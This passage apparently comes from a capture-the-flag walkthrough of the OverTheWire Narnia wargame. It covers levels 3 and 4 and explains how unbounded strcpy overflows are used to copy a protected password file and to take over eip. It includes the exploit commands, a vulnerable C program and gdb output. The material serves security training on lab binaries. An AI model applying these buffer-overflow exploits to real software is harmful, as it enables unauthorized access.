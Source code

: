 There are a lot of potentially exploitable bugs here due to unbounded reads and
writes. However, since we're only looking for the password to `narnia4`,
there's no need to pop a shell - this code will copy a file for us if we can
give it the right input. Since the `strcpy` is unbounded, we can overflow the
`ifile` buffer and write into the `ofile` buffer - its just a matter of
crafting a string that gives us what we want. I started by moving into a `tmp`
directory and the following input worked for me.

{% highlight bash %}
narnia3@melinda:/tmp/ambitiousghost$ touch narnia4
narnia3@melinda:/tmp/ambitiousghost$ /narnia/narnia3 /././././././../etc/narnia_pass/narnia4
copied contents of /././././././../etc/narnia_pass/narnia4 to a safer place... (narnia4)
narnia3@melinda:/tmp/ambitiousghost$ cat narnia4 
XXXXXXXXXX
���4�}0,narnia3@melinda:/tmp/ambitiousghost$ 
{% endhighlight %}

First, we can create a file of the same name that we control (`narnia4`) in the
current directory. The file we want to read is in `/etc/narnia_pass/narnia4` so
we just need to pad this input with useless path junk so that it's just long
enough to overflow only the string `narnia4` into `ofile` - referring to the
`narnia4` file in the current directory. Since `read`/`write` don't adjust
permissions, we still have access to `narnia4` after it's written.

## Level4 &rarr; Level5 {#level5}

{% highlight c %}
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
        int i;
        char buffer[256];

        for(i = 0; environ[i] != NULL; i++)
                memset(environ[i], '\0', strlen(environ[i]));

        if(argc>1)
                strcpy(buffer,argv[1]);

        return 0;
}
{% endhighlight %}

It looks like this program was designed to defeat our environment variable
shellcode - before the `strcpy`, it nulls all environment variables. Instead,
we'll have to store our shellcode in the buffer itself. First, let's get
control of `eip`.

{% highlight bash %}
(gdb) r `python -c 'print "A"*272+"BBBB"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia4 `python -c 'print "A"*272+"BBBB"'`

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
{% endhighlight %}


[Narnia]: http://overthewire.org/wargames/narnia/
[OverTheWire]: http://overthewire.org
[pwntools]: https://github.com/Gallopsled/pwntools